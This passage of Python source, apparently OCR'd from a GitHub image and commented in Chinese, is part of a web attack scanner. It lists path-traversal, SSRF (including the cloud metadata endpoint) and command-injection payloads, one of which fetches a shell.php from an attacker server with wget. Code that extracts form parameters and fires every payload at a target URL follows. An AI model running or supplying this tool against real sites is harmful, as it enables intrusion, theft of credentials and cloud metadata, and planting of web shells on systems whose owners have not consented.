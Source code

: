 ```python
            "../../../etc/passwd",
            "..%2f..%2f..%2fetc%2fpasswd",
            "....//....//etc/passwd",
            "php://filter/convert.base64-encode/resource=index.php"
        ]
        
        # 4. SSRF攻击
        ssrf_payloads = [
            "http://localhost/admin",
            "http://127.0.0.1/",
            "http://169.254.169.254/latest/meta-data/",
            "dict://127.0.0.1:11211/stats",
            "file:///etc/passwd"
        ]
        
        # 5. 命令注入
        rce_payloads = [
            "|whoami",
            "$(whoami)",
            "`whoami`",
            ";cat /etc/passwd",
            "|| wget http://攻击者服务器/shell.php"
        ]
        
        # 执行所有攻击
        params = self._get_parameters()
        for param in params:
            for payload in xss_payloads + sqli_payloads + lfi_payloads + ssrf_payloads + rce_payloads:
                self._test_payload(param, payload)
                
    def _get_parameters(self):
        # 获取所有可能的参数
        params = set()
        try:
            response = requests.get(self.url)
            # 从URL中提取参数
            if '?' in self.url:
                query = self.url.split('?')[1]
                params.update(query.split('&'))
            
            # 从表单中提取参数
            soup = BeautifulSoup(response.text, 'html.parser')
            for form in soup.find_all('form'):
                for input_tag in form.find_all(['input', 'textarea']):
                    if input_tag.get('name'):
                        params.add(input_tag['name'])
        except:
            pass
        return params
        
    def _test_payload(self, param, payload):
        try:
            # 构造攻击URL
            if '?' in self.url:
                test_url = f"{self.url}&{param}={payload}"
            else:
                test_url = f"{self.url}?{param}={payload}"
            
            # 发送请求
            response = self.session.get(test_url)
            
            # 检查响应
```